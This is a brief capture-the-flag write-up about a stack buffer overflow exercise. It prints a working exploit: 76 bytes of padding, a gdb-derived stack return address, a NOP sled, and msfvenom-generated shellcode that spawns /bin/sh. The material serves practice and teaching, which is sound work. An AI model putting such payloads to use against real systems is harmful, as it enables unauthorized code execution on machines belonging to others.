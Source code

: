 There is not **win()** function, just two line for initialization and read input. "Have you ever forgetten copying some thing ?"

Don't worry, it is the great chance for us to make friend with shellcode.
We should overwrite EIP (using technique from previous challenge) in order to redirect program execution to our shellcode, which also was injected to input data.

```
payload = flushdata + bufaddr + nopdata + shellcode
```

Easily to recognize that

```
flushdata = 'A' * 76
```

**bufaddr** points to shellcode's address in Stack. Using **gdb**, we have:

```
bufaddr = pack("<I", 0xffffdbe0)
```

**nopdata** was used to avoid the different between the memory address inside gdb and outside.

```
nopdata = "\x90" * 66
```

> What is **shellcode** ? Where should we find **shellcode** ?

We can build our shellcode through using **msfvenom** in msf framework.

This is shellcode i using:

```
shellcode = "\x31\xc0\x31\xdb\xb0\x06\xcd\x80\x53\x68/tty\x68/dev\x89\xe3\x31\xc9\x66\xb9\x12\x27\xb0\x05\xcd\x80\x31\xc0\x50\x68//sh\x68/bin\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80"
```

Combine all of them together and **dd** whatever you want :D






